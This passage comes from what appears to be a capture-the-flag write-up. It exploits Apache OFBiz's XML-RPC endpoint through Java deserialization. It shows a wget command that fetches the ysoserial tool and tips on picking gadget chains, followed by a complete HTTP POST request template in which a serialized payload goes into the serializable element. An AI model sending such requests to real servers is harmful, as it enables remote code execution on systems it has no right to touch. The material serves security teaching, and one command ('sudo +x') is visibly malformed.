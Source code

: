 ```
        </methodCall>
      XML
    )
  end

```

#### Find Payload

I’ll download [ysoserial](https://github.com/frohoff/ysoserial) (`sudo wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O /usr/local/bin/ysoserial` and `sudo +x /usr/local/bin/ysoserial`) to generate Java serialized payloads. The trick with yso is always finding the right set of gadgets to use (Payload). I’ll typically try a bunch, starting with the `CommonsCollection` ones, and then other `Commons` ones.

I’ll get a request that looks like this in Burp Repeater:

```

POST /webtools/control/xmlrpc HTTP/1.1
Host: localhost:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=6BED6745363C7728AAE4274F77E4B6D2.jvm1; OFBiz.Visitor=10000
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: test/xml
Content-Length: 3145

<?xml version="1.0"?>
<methodCall>
  <methodName>0xdf0xdf</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>0xdf0xdf</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[yso output here]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>

```
